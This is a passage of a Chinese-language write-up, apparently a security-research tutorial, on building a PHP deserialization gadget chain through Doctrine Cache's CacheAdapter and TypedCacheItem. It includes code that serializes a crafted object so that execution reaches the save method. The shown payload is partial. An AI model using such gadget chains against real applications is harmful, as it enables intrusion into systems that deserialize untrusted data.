 要继续执行代码，必须至少设置一个 `deferredItem` .如果认为代码中定义的 PHP 注解，它应该是 `TypedCacheItem` 、 `CacheItem` ，本文稍后将解释这种差异（参见 PHP 版本差异）。因此，已在 `deferredItems` 数组中添加了 `TypedCacheItem` 。

正如在 `foreach` 循环中看到的，对 `expiry` 的检查已经完成，所以 对`TypedCacheItem` 必须有一个 `expiry` 定义属性。在循环内部，检查`value`。

```bash
<?php

namespace Doctrine\Common\Cache\Psr6;

[...]

final class TypedCacheItem implements CacheItemInterface
{
    private ?float $expiry = null;

    public function get(): mixed
    {
        return $this->value;
    }

    public function getExpiry(): ?float
    {
        return $this->expiry;
    }
}
```

`deferredItem` `expiry` 值导致两种不同的可能性。如果当前 timestamp 低于 `deferredItem` `expiry` 的值，则到达 `save` 方法。

```bash
<?php

namespace Doctrine\Common\Cache\Psr6
{
    class CacheAdapter
    {
        public $deferredItems = true;
    }
    class TypedCacheItem
    {
        public $expiry = 99999999999999999;
        public $value = "test";
    }

}

namespace PopChain
{
use Doctrine\Common\Cache\Psr6\CacheAdapter;

$obj = new CacheAdapter();

$obj->deferredItems = [new TypedCacheItem()];
echo serialize($obj);
}
```
